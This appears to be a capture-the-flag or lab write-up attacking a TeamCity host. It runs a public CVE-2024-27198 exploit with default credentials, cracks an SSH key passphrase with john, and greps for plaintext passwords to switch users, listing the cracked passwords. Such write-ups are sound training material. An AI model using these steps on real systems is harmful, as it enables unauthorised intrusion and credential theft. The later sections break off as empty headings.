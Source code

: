 #Pwned! 
```IP
192.168.102.91
```
# Enumeration

## HTTP 80

login redirects us to http://teams.onlyrands.com/ so we add it to /etc/hosts

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202105341.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202105420.png?raw=true)


# Exploitation


https://github.com/W01fh4cker/CVE-2024-27198-RCE

```
python CVE-2024-27198-RCE.py -t http://teams.onlyrands.com -u admin -p admin
```

we can now login and we discover some users
```
patriciam
matthewa
marcot
kathleenw
```

we can create a backup and investigate
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202120231.png?raw=true)

the database contains credentials

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202120214.png?raw=true)

password doesnt crack so we try to execute commands with the previous exploit
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202120941.png?raw=true)
we get an error. Apparently we need to activate debug settings
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202120702.png?raw=true)
even with this, it still doesnt work
we find something in the building porjects
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202121254.png?raw=true)
an id_rsa key. We need a password tho
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202121622.png?raw=true)
we crack it with 
```
ssh2john id_rsa
```
```
john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202122025.png?raw=true)
```
cheer
```
```
ssh marcot@192.168.102.91 -i id_rsa
```
# PrivEsc

## Manual

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202122213.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202122341.png?raw=true)
searching for passwords we find
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202130232.png?raw=true)
```
IdealismEngineAshen476
```
```
su - matthewa
```

```
grep --color=auto -rnw '/home/freelancers/matthewa/' -ie "PASSWORD" --color=always 2> /dev/null
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202131725.png?raw=true)
```
RefriedScabbedWasting502
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202133817.png?raw=true)
we have su permissions over 
```
/usr/bin/systemctl status teamcity-server.service
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202133754.png?raw=true)
## Automated

### Peass
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202124706.png?raw=true)
```
/home/freelancers/marcot/.gnupg/pubring.kbx
/home/freelancers/marcot/.gnupg/trustdb.gpg
```
### Mimikatz

# Lateral Movement

